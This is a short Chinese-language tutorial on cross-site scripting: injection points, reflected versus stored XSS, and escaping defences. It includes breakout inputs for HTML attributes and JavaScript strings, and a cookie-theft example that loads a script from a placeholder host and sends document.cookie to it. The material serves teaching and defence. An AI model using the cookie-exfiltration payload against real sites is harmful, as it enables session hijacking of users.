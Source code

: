 # 跨站脚本攻击(Cross Site Scripting)

html结构
```html
<!-- content为用户输入的数据 -->
<div>
    #{content}
</div>
```
正常数据
```html
<!-- 输入 Hello World -->
<div>
    Hello World
</div>
```
恶意数据
```html
<!-- 输入 <script>alert(1)</script> -->
<div>
    <script>alert(1)</script>
</div>
```

# 案例: 利用XSS获取cookie

搜索框输入关键词, 搜索结果会回显关键词

输入脚本
```html
<script src="http://xxx.com/a.js"></script>
```
a.js内容如下
```javascript
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://xxx.com/b.php?c=' +
    encodeURIComponent(document.cookie);
```

# XSS攻击分类

1. 反射型: url参数直接注入
2. 存储型: 存储到数据库后, 页面读取数据库时注入

# XSS攻击注入点

## HTML节点内容

```html
<div>
    #{content}
</div>
```

## HTML属性

```html
<img src="#{image}" />
```
注入
```html
<!-- 
    输入: 1" onerror="alert(1)
    关闭当前src属性,并添加自定义属性 
-->
<img src="1" onerror="alert(1)" />
```

## JavaScript代码

```html
<script>
var from = "!{from}";
</script>
```
注入
```html
<!-- 
    输入: hello";alert(1);"
-->
<script>
var from = "hello";alert(1);"";
</script>
```

## 富文本

富文本会保留html

# XSS防御

## 浏览器自带的防御

1. 浏览器会防御反射型的XSS, 即url里的内容再次出现在html节点和html属性中

## HTML节点内容

1. 将尖括号`<`和`>`转义成`&lt;`和`&gt;`

## HTML属性

1. 将引号`"`转义成`&quot;`
2. 将引号`'`转义成`&#39;`
3. 将空格` `转义成`&nbsp;`


